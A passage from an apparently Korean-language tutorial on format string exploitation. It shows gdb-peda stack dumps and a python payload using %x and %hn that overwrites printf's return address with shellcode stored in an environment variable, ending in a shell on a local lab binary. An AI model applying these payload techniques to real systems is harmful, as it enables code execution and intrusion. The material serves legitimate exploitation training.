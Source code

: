 세번째 %x를 만나면 위와 같이 10205바이트만큼 공백 출력 후,  ESP+C 위치에 값을 4바이트 출력한다.(10209)
네번째 %hn을 만나면 현재까지 출력한 길이를 ESP+10 위치에 있는 주소 안에 WORD 사이즈 복사한다.

0xffffd5ae(RET+2)부터 2바이트까지 출력된 모든 길이를 저장하게 된다. 모두 더하면 65535 로 0xFFFF가 된다. 

```
gdb-peda$ x/16wx 0xffffd5ac
0xffffd5ac:	0xffffd81e	0x00000001	0xffffd644	0xffffd64c
0xffffd5bc:	0x00000000	0x00000000	0x00000000	0xf7fb6000
0xffffd5cc:	0xf7ffdc04	0xf7ffd000	0x00000000	0xf7fb6000
0xffffd5dc:	0xf7fb6000	0x00000000	0x19d758f0	0x25f7d6e0
```

위와 같이 RET의 값이 환경변수에 저장해두었던 쉘 코드의 주소로 변조된 것을 확인할 수 있다.

## [+] Training 3

이번엔 `printf` 함수의 RET를 변조하는 연습을 해보자.

`printf` 함수 호출 직후, 스택은 아래와 같다.

```
gdb-peda$ x/16x $esp
0xffffd16c:	0x08048500	0xffffd176	0x4141e550	0x0016000a
0xffffd17c:	0x0016508c	0x0016508c	0x0000619c	0x0000619c
0xffffd18c:	0x00000004	0x00000004	0x6474e551	0x00000000
0xffffd19c:	0x00000000	0x00000000	0x00000000	0x00000000
```

ESP에는 RET 주소가 담겨있고, ESP+4에 버퍼 주소가 담겨있는 것을 확인할 수 있다.
현재 ESP 주소의 값을 환경변수 `EGG` 의 주소로 변조해주면 될 것이다.

마찬가지로 주소의 오차가 있을 수 있으므로 `unset LINES, COLUMNS` 명령으로 환경변수를 지워주고 메모리 주소를 다시 확인한다.

```
gdb-peda$ x/16x $esp
0xffffd19c:	0x08048500	0xffffd1a6	0x4141e550	0x0016000a
0xffffd1ac:	0x0016508c	0x0016508c	0x0000619c	0x0000619c
0xffffd1bc:	0x00000004	0x00000004	0x6474e551	0x00000000
0xffffd1cc:	0x00000000	0x00000000	0x00000000	0x00000000
```

RET 주소는 0xffffd19c 로 확인된다. 환경변수의 주소는 0xffffd81e 이다.

```
root@shh0ya-virtual-machine:~/Pwn/FSB# (python -c 'print "AA\x9c\xd1\xff\xff"+"AAAA\x9e\xd1\xff\xff"+"%55312x%hn"+"%10209x%hn"'; cat)|./exam

...
                                                                                                           41414141

ls
a.out  env.c  exam  exam.c  peda-session-dash.txt  peda-session-exam.txt

pwd
/root/Pwn/FSB
```
